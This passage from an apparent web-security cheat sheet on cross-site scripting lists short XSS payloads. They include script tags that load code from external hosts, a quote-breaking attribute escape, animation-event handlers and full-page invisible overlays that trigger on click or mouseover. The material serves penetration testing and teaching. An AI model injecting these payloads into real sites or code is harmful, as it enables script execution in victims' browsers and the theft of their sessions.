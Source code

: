 Taken from the blog of [Jorge Lajara](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html).

```javascript
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr  
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).  
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).  
**More tiny XSS** payload [can be found here](https://github.com/terjanq/Tiny-XSS-Payloads).

### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](../clickjacking.md#xss-clickjacking) \(if the page is vulnerable\).

### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](../dangling-markup-html-scriptless-injection.md)because you could **exploit** the vulnerability **without** executing **JS** code.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

If you are in **inside a HTML tag**, the first thing you could try is to **escape** from the tag and use some of the techniques mentioned in the [previous section](./#injecting-inside-raw-html) to execute JS code.  
If you **cannot escape from the tag**, you could create new attributes inside the tag to try to execute JS code, for example using some payload like \(_note that in this example double quotes are use to escape from the attribute, you won't need them if your input is reflected directly inside the tag_\):

```javascript
" autofocus onfocus=alert(document.domain) x="
```

#### Style events

```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
